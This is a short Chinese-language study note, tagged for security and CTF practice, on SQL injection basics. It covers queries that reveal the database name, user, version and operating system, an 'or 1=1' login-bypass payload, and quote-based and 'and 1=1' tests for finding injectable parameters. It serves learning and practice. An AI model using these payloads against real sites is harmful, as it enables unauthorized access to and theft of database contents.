 ```yaml
---
title: SQL注入
tags:
  - Note
  - Security
  - CTF
---
```


## 基本操作

1.测试数据库表列数

    `select colA from table order by 1` 不断增加`order by`后面的数字，可以测试出table的表列数。

2.查询数据库名字`select database()`

3.查询当前用户`select user()`

4.查询数据库版本`select version()`

5.查询操作系统`select @@version_compile_os`
    
6.数据库自带数据库为`information_schema` 其下包含tables表，包含所有创建的表，schema 为`table_name, table_schema`

7.绕过验证

 原始验证的sql语句`select * from users where username='123' and password='123'`
 
 注入代码`123' or 1=1 `到username字段
 
 实际执行代码`select * from users where username='123' or 1=1 #' and password='123' or 1=1 #'`
 
 由于在where判断的时候 `1=1`恒为真，所以语句执行成功，查询到所有用户。
 
 ## SQL注入点判断方法
 
 ### 单引号判断法
 
 `http://xxx/abc.php?id=1'` 查看页面是否出错，分为字符型和数字型。
 
 #### 数字型
 
 1.使用`http://xxx/abc.php?id= x and 1=1`判断，页面正常运行
 
 2.使用`http://xxx/abc.php?id= x and 1=2`判断，页面出错
 
 若为字符型，则运行
 ```sql
select * from <表名> where id = 'x and 1=1' 

select * from <表名> where id = 'x and 1=2' 
 ```
 
 #### 字符型
 
 测试方法：
 
 1.`http://xxx/abc.php?id= x' and '1'='1` 正常运行
 
 2.` http://xxx/abc.php?id= x' and '1'='2`出错
 
 实际执行`select * from <表名> where id = 'x' and '1'='1'`
 
 
 
 